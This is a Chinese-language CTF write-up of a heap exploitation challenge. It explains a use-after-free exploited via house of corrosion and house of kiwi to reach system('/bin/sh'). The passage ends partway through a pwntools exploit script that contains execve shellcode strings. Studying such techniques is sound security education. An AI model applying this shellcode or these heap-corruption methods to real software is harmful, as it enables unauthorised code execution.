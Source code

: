 ![image-20220714192957706](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220714192957706.png)

程序开头mmap了一片0x3000

![image-20220714193248801](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220714193248801.png)

申请calloc申请，没有size限制，最新的chunk记录在ptr里，show则可以show出ptr里的值

edit可以输入编辑的大小(<0x1000)和内容，以及输入的位置于mmp的偏移(0x2000)，dele可以free掉基于mmp的偏移地址(0x3000)

![image-20220714214917534](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220714214917534.png)

![image-20220714214846816](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220714214846816.png)

calloc绕过tcache申请，并且四个功能编辑的地方不同，得想办法串联起来，要把mmp区域转换为堆块地址。四个功能串联以后，发现存在UAF漏洞

泄露libc以及mmp地址这里不再赘述，这道题主要的利用思路是house of corrosion+house of kiwi

house of corrosion 可以实现任意地址写任意值，算是largebinattack的上位，主要利用手法：

前置条件是劫持global_max_fast为大值

1.计算目标位置偏移size，申请相应size的堆(也可以直接伪造)

2.free掉堆块(此时目标位置会写入该堆块的地址)，编辑堆块的fd指针为要写入的值

3.申请回堆块实现攻击

也可以任意地址写入堆块地址，所以是largebinattack的上位

这里利用的是Kiwi的方案一，sync为system，stderr为/bin/sh，这里还需要去把stderr的vtable换成IO_helper_jumps，因为原本的IO_file_jumps距离fastbinY为0x19xx，在\*2堆块size大于我们可编辑的上限，难以伪造，而IO_helper_jumps距离更近，\*2以后size也只有0x16xx。

最后触发的位置，main_arena+96记录了topchunk的地址，利用house of corrosion在该位置写入堆块位置，实现topchunksize的修改

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
# context.log_level = 'debug'
p = process("./pwn")

elf = ELF("./pwn")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def add(size):
    sla(">> ",1)
    sla("size: ",size)
```